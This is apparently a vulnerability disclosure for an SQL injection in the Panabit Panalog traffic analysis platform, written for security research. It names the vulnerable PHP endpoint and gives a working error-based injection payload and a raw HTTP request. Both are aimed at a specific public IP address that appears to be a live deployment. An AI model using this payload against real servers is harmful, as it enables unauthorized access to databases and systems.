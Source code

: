 
Panabit-Panalog Big Data Analysis Platform has a front-end SQL injection vulnerability.

## 1. Vulnerability Description:
Beijing Panabit Network Software Co., Ltd. (https://www.panabit.com/) was founded in 2004, with its headquarters located in Zhongguancun, Beijing. Adhering to the core concept of "Connecting the World Freely," the company's vision is to build an unlimited information world by connecting distant regions as well as bridging the past and the future through advanced network technology.

Panabit-Panalog Big data analysis Platform has an SQL injection vulnerability. Attackers can exploit this vulnerability to access sensitive database information, obtain server permissions, and manipulate server files.

## 2. Affected Component:
BUILDTIME=202103080942

SOFTNAME=流量分析管理系统

## 3. Vulnerability Location:
/Maintain/sprog_upstatus.php

## 4. Vulnerability Reproduction:
IP: https://103.39.233.29/

![image-20240221020015926](login.png)

As shown in the login interface.

Construct POC, successfully obtaining the database user name and host:
https://103.39.233.29/Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,user()),0)&rdb=1

```
GET /Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,user()),0)&rdb=1 HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Host: 103.39.233.29


```

![image-20240221015953897](poc.png)
